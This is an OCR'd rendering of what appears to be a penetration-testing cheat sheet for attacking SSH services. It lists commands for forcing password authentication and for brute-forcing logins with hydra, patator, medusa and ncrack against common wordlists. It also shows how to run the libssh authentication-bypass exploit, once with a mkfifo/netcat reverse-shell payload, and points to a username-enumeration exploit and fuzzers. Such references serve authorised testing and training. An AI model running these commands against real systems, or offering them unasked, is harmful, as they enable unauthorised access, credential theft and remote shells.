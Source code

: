```bash
debug1: client_input_channel_req: channel 0 rtype exit-status reply 0
debug1: client_input_channel_req: channel 0 rtype eow@openssh.com reply 0
uid=1000(user) gid=100(users) groups=100(users)
debug1: channel 0: free: client-session, nchannels 1
Transferred: sent 2412, received 2480 bytes, in 0.1 seconds
Bytes per second: sent 43133.4, received 44349.5
debug1: Exit status 0

# Check Auth Methods:
$ ssh -v 10.10.1.111
OpenSSH_8.1p1, OpenSSL 1.1.1d  10 Sep 2019
...
debug1: Authentications that can continue: publickey,password,keyboard-interactive

# Force Auth Method:
$ ssh -v 10.10.1.111 -o PreferredAuthentications=password
...
debug1: Next authentication method: password

# BruteForce:
patator ssh_login host=10.11.1.111 port=22 user=root 0=/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt password=FILE0 -x ignore:mesg='Authentication failed.'
hydra -l user -P /usr/share/wordlists/password/rockyou.txt -e s ssh://10.10.1.111
medusa -h 10.10.1.111 -u user -P /usr/share/wordlists/password/rockyou.txt -e s -M ssh
ncrack --user user -P /usr/share/wordlists/password/rockyou.txt ssh://10.10.1.111

# LibSSH Before 0.7.6 and 0.8.4 - LibSSH 0.7.6 / 0.8.4 - Unauthorized Access 
# Id
python /usr/share/exploitdb/exploits/linux/remote/46307.py 10.10.1.111 22 id
# Reverse
python /usr/share/exploitdb/exploits/linux/remote/46307.py 10.10.1.111 22 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.1.111 80 >/tmp/f"

# SSH FUZZ
# https://dl.packetstormsecurity.net/fuzzer/sshfuzz.txt

# cpan Net::SSH2
./sshfuzz.pl -H 10.10.1.111 -P 22 -u user -p user

use auxiliary/fuzzers/ssh/ssh_version_2

# SSH-AUDIT
# https://github.com/arthepsy/ssh-audit                     

# Enum users < 7.7:
# https://www.exploit-db.com/exploits/45233
https://github.com/CaioCGH/EP4-redes/blob/master/attacker/sshUsernameEnumExploit.py
python ssh_user_enum.py --port 2223 --userList /root/Downloads/users.txt IP 2>/dev/null | grep "is a"

# SSH Leaks:
https://shhgit.darkport.co.uk/

# SSH bruteforce
# https://github.com/kitabisa/ssb
```

